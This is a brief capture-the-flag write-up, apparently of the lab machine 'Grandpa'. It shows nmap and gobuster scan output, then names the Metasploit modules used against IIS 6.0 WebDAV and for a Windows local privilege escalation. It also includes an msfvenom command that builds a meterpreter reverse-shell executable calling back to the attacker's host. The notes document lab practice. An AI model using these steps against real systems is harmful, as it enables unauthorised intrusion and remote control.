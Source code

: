 # Grandpa

## Enumeration/Scanning

- sudo nmap -sV -sC -Pn $IP
    
    Starting Nmap 7.93 ( [https://nmap.org](https://nmap.org/) ) at 2023-08-07 04:25 EDT
    Nmap scan report for 10.129.95.234
    Host is up (0.041s latency).
    Not shown: 999 filtered tcp ports (no-response)
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Microsoft IIS httpd 6.0
    | http-methods:
    |_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
    |*http-title: Under Construction
    | http-webdav-scan:
    |   Server Type: Microsoft-IIS/6.0
    |   Server Date: Mon, 07 Aug 2023 08:25:40 GMT
    |   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
    |   WebDAV type: Unknown
    |*  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
    |_http-server-header: Microsoft-IIS/6.0
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 19.96 seconds
    
- sudo gobuster dir -u $IP -w /usr/share/wordlists/dirb/common.txt
    
    /_private             (Status: 301) [Size: 155] [--> http://10.129.95.234/_private/]
    /_vti_log             (Status: 301) [Size: 157] [--> http://10.129.95.234/_vti_log/]
    /_vti_bin             (Status: 301) [Size: 157] [--> http://10.129.95.234/_vti_bin/]
    /_vti_bin/shtml.dll   (Status: 200) [Size: 96]
    /_vti_bin/_vti_adm/admin.dll (Status: 200) [Size: 195]
    /_vti_bin/_vti_aut/author.dll (Status: 200) [Size: 195]
    /aspnet_client        (Status: 301) [Size: 160] [--> http://10.129.95.234/aspnet_client/]
    /images               (Status: 301) [Size: 151] [--> http://10.129.95.234/images/]
    /Images               (Status: 301) [Size: 151] [--> http://10.129.95.234/Images/]
    

Found exploit for IIS 6.0

## Exploitation

msfconsole

windows/iis/iis_webdav_scstoragepathfromurl

received shell

## Privilege Escalation

Need to stabilize shell to run suggester

dir /a:h to show hidden files

Can create files in NetworkService home

msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.16.173 LPORT=1127 -f exe -o shell.exe

upload shell.exe "C:\Documents and Settings\NetworkService\shell.exe”

set up listener on msfconsole with multi/handler

ran the shell.exe and received a better shell allowing me to run suggester

windows/local/ms14_058_track_popup_menu

rooted

## Post-exploitation

None
